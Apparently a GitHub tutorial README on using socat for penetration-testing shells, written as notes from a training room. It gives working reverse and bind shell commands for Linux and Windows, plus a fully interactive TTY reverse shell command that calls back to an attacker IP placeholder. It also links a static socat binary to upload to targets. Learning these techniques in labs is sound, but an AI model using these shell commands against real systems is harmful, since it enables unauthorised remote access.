 <h1>$${\color{yellow}Socat}$$</h1>

Socat is similar to netcat in some ways, but fundamentally different in many others. The easiest way to think about socat is as a connector between two points. In the interests of this room, this will essentially be a listening port and the keyboard, however, it could also be a listening port and a file, or indeed, two listening ports. All socat does is provide a link between two points -- much like the portal gun from the Portal games!

> Once again, let's start with reverse shells.

*******

### - Reverse Shells

As mentioned previously, the syntax for socat gets a lot harder than that of netcat. Here's the syntax for a basic reverse shell listener in socat:

```socat TCP-L:<port> -```

As always with socat, this is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to ```nc -lvnp <port>```.

<br>

- On Windows we would use this command to connect back:

```socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes```

> The "pipes" option is used to force powershell (or cmd.exe) to use <kbd>Unix style</kbd> standard input and output.

<br>

- This is the equivalent command for a Linux Target:

```socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"```

************

### - Bind Shells

- On a Linux target we would use the following command:

``` socat TCP-L:<PORT> EXEC:"bash -li" ```

<br>

- On a Windows target we would use this command for our listener:

```socat TCP-L:<PORT> EXEC:powershell.exe,pipes```

<br>

We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target, we use this command on <kbd>our attacking machine</kbd> to connect to the waiting listener.

```socat TCP:<TARGET-IP>:<TARGET-PORT> -```

****************

<br>

> ## powerful uses for Socat:
Now let's take a look at one of the more powerful uses for Socat: a fully stable Linux tty reverse shell. This will only work when the target is Linux, but is significantly more stable. As mentioned earlier, socat is an incredibly versatile tool; however, the following technique is perhaps one of its most useful applications. Here is the new listener syntax:

```socat TCP-L:<port> FILE:`tty`,raw,echo=0```

<br>

Let's break this command down into its two parts. As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z, ```stty raw -echo; fg``` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true), which can then be executed as normal.

The special command is as follows:

```socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane```

<br>

This is a handful, so let's break it down.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with ``` EXEC:"bash -li" ```. We're also passing the arguments: pty, stderr, sigint, setsid and sane:

  - pty, allocates a pseudoterminal on the target -- part of the stabilisation process
  - stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
  - sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
  - setsid, creates the process in a new session
  - sane, stabilises the terminal, attempting to "normalise" it.

> That's a lot to take in, so let's see it in action.

As normal, on the left we have a listener running on our local attacking machine, on the right we have a simulation of a compromised target, running with a non-interactive shell. Using the non-interactive netcat shell, we execute the special socat command, and receive a fully interactive bash shell on the socat listener to the left:

<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/919f2dff-4ea4-4b0d-956f-271ab09006ab">
</p>

> Note that the socat shell is fully interactive, allowing us to use interactive commands such as SSH. This can then be further improved by setting the stty values as seen in the previous task, which will let us use text editors such as Vim or Nano.

If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding ```-d -d``` into the command. This is very useful for experimental purposes, but is not usually necessary for general use.

*************

<br>

if this content liked you, follow me [Here](https://github.com/4bo4yman) ;)
